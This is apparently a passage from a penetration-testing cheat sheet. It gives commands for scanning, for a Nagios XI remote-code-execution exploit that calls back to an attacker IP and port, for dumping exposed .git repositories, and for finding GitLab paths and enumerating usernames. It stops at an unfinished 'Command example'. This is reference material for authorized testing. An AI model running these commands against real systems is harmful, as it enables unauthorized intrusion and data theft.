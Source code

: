 ```
eos scan http://domain.com --output results
```


### Nagios

Exploit: https://www.exploit-db.com/exploits/49422

Example:

```
python3 nagiosxi-rce.py http://domain.local username password 10.10.14.236 5555
```



## Pentest Applications

### Git

This command is used to download a repository stored on web server and restore deleted files.

Syntax:

```
./gitdumper.sh http://<IP>/.git/ <pathOutput>
```

To view repository status and deleted files:

```
git status
```

To restore a delete file:

```
git checkout <fileToDownload>
```


### GitLab

It is a web-based Git-repository hosting tool that provides wiki capabilities, issue tracking, and continuous integration and deployment pipeline functionality. It is open-source and originally written in Ruby, but the current technology stack includes Go, Ruby on Rails, and Vue.js.

> Interesting paths:

/help
/users/sing_in
/explore

> Username Enumeration 

Exploit: https://www.exploit-db.com/exploits/49821

Other exploit: https://github.com/dpgg101/GitLabUserEnum

Command example:
